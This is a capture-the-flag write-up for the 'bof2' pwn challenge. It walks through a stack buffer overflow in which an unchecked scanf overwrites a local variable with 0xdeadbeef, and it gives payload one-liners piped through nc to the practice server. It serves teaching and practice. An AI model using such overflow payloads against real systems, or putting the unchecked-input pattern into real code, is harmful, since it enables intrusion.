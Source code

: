 # bof2
**Category:** Pwn

**Points:** 20

**Description:**

Author: kablaa

nc ctf.hackucf.org 9001

> **Files:** bof2, bof2.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `scanf()` call into a buffer of 64 chars:
```c
void handle_connection(int sock) {
	int correct = 0;
	char bof[64];
	
	scanf("%s", bof);
	
	if(correct != 0xdeadbeef) {
		puts("you suck!");
		exit(0);
	}
	
	win();
}
```

When the program runs it waits for input at this point, and overflowing the buffer may overflow into the `correct` variable.

To test this I first created a file with 64 A characters in. This allows us to see how the stack is organised.
```
> python -c "print('A'*64)" > inp_file.txt
```

First, for this run of the code, we can see that our `correct` variable ends up at 0xffbab10c (I guessed this was the `correct` variable as it is set to 0):

![Location of 'correct' variable](correct_location.png)

We can see this area on the stack (highlighted in yellow):

!['Correct' variable on the stack](stack1.png)

If we move the debugger on one step, we can see this area get zeroed:

!['Correct' variable set to zero](stack2.png)

We can also see that our `bof` array is at 0xffbab0cc (must be `bof` as it's being set up for use in the `scanf()`):

![Location of 'bof' array](bof_location.png)

If we send our 64 A characters in, we can clearly see this array on the stack:

![bof array filled with As](stack3.png)

We can also see that it sits right up against our `correct` variable, so we should be able to set `correct` to 0xdeadbeef by sending those characters after our 64 A characters (we need to reverse the order of the bytes because - little endian). Our input file is now set with:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" > inp_file.txt
```
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde')" > imp_file3.txt`

If we run this and look at the stack we can now see our A characters followed by our `deadbeef`:

![As and deadbeef](stack4.png)

Tracing through, we end up in the `win()` function. So now it's time to try it on the server:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" | nc ctf.hackucf.org 9001
```
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde')" | nc ctf.hackucf.org 9001`

This worked, and gave me the flag.

